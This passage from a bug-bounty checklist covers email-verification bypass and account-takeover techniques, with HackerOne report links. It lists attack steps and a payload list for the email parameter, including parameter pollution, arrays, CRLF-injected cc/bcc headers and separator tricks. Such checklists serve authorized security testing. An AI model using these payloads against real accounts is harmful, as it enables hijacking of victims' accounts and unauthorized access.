     <https://hackerone.com/reports/1406471>
    ```
    
- [ ] **[Ability to bypass partner email confirmation to take over any store given an employee email](https://hackerone.com/reports/300305)**
- [ ] Binding an email using a confirmation link
	Try to follow a confirmation link for account `A` within the session of account `B` within an email confirmation flow. If an application is vulnerable, it will link the verified email to account `B`. In this case, the attack flow may look like:
	1. An attacker links `attacker@website.com` to their account.
	2. An attacker sends a confirmation link to a victim.
	3. A victim follows the link from an email while logged into an application.
	4. An application links `attacker@website.com` to a victim.
	References:
	- [Writeup: Watch out the links : Account takeover!](https://akashhamal0x01.medium.com/watch-out-the-links-account-takeover-32b9315390a7)
    
- [ ] **No Rate Limit when resend Email Confirmation**
    
    ```python
    try to click resend confirmation email request
    capture it 
    try to send it 50+ times
    
    <https://hackerone.com/reports/774050>
    ```
    
- [ ] **Broken Authentication To Email Verification Bypass**
    ```jsx
    # Broken Authentication To Email Verification Bypass 
    1) First You need to make a account & You will receive a Email verification link. 
    2) Application in my case give less Privileges & Features to access if not verified. 
    3) Logged into the Application & I change the email Address to Email B. 
    4) Verification Link was Send & I verified that. 
    5) Now I again Changed the email back to Email I have entered at the time of account creation. 
    6) It showed me that my Email is Verified. 
    7) Hence , A Succesful Email verfication Bypassed as I haven't Verified the Link which was sent to me in the time of account creation still my email got verified. 
    8) Didn't Receive any code again for verification when I changed back my email & When I open the account it showed in my Profile that its Verified Email.
    ```
- [ ] **ATO from manipulating the email Parameter**
```python
# parameter pollution
email=victim@mail.com&email=hacker@mail.com

# array of emails
{"email":["victim@mail.com","hacker@mail.com"]}

# carbon copy
email=victim@mail.com%0A%0Dcc:hacker@mail.com
email=victim@mail.com%0A%0Dbcc:hacker@mail.com

# separator
email=victim@mail.com,hacker@mail.com
email=victim@mail.com%20hacker@mail.com
email=victim@mail.com|hacker@mail.com
#No domain:
email=victim
#No TLD (Top Level Domain):
email=victim@xyz
#change param case 
email=victim@mail.com&Email=attacker@mail.com
email@email.com,victim@hack.secry
```